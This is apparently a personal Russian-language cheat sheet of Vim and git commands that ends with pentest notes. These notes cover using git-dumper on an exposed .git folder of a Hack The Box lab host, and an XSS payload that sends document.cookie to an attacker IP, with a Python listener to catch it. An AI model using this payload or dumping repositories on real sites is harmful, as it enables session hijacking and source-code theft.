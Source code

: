# -VIM

# Замена всех слов на другие 
        %s/word1/word2/g         - где g - заменять все всхождения а не только первое 
        dd - удалитьь строку
        shift + y - корирование выделеннной строки
        shift + р - вставка выделеннной строки        
        dd - удалить строку

# Git Hub

#set git config values #Авторизация

        git pull - Стянуть

        git checkout - переключение веток
        
        git config --global user.name "ваше имя"

        git config --global user.email "ваше_мыло@gmail.com"

        git config --global github.user ник

        git config --global github.token your_token_here#Основные команды гит:

        git clone [url]

        git add . - Добавить все (. - Обозначает текущий каталог со всем содержимым)

        git commit -m "mesage" - Создать комит

        git push - отправить

        git rn file_name - удалить из репозитория

        git branch branch_name - создать ветку
        
        git merge - сливает ветку с текущей
        
        git status - получить статус
        
         
# Git-Dumper (сКАЧИВАЕМ .GIT И вытягиваем с него файлы)

https://github.com/arthaud/git-dumper
https://github.com/internetwache/GitTools/tree/master/Dumper        
        
        git-dumper http://cat.htb/.git dump

        https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh

        ./extractor.sh dump git-ext
        
# XSS () в уязвимомо месте пишем)
        
        <script>document.location='http://10.10.14.252:4444/?c='+document.cookie;</script>
        и ловим отстук 
        python3 -m http.server 4444
